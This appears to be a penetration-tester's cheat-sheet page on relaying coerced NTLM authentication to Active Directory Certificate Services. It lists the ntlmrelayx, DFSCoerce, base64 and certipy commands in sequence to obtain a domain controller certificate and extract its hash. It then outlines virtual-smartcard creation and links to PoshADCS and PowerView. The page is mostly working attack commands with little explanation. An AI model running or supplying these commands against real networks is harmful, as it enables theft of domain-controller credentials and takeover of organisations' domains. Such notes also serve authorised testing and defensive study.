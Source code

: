

## Relaying attacks to get a certificate

### DFSCoerce

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}

### Set up a Man-In-The-Middle relay server

```
ntlmrelayx.py -smb2support -t https://192.168.1.6/certsrv/certfnsh.asp --adcs --template DomainController
```

### Using DFSCoerce

```
python3 dfscoerce.py -u sspade -d cybex.com 192.168.1.249 192.168.1.5
```

{% hint style="info" %}
Save the baset64 encoded certificate
{% endhint %}

#### Decode the Certificate

```
cat cert64 | base64 -d > dc01.pfx
```

### Extract the Private Key hash

```
certipy auth -pfx dc01.pfx -dc-ip <domain ip>
```



## Using smartcards to gain privileged access

{% embed url="https://lnkd.in/gQVNDWtF" %}

### Create a Smartcard

```
cmd> tpmvscmgr create /name samvsc /pin default /adminkey random /generate
```

### PoshADCS

{% embed url="https://github.com/cfalta/PoshADCS" %}

### PowerView

{% embed url="https://lnkd.in/gtAgV5Jn" %}
